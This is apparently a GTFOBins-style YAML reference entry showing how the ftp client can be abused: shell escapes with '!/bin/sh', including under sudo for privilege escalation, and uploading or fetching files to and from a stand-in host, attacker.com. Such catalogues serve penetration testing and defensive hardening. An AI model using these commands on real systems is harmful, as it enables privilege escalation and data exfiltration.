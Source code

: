 ```yaml
---
functions:
  shell:
    - code: |
        ftp
        !/bin/sh
  file-upload:
    - description: Send local file to a FTP server.
      code: |
        RHOST=attacker.com
        ftp $RHOST
        put file_to_send
  file-download:
    - description: Fetch a remote file from a FTP server.
      code: |
        RHOST=attacker.com
        ftp $RHOST
        get file_to_get
  sudo:
    - code: |
        sudo ftp
        !/bin/sh
---
```

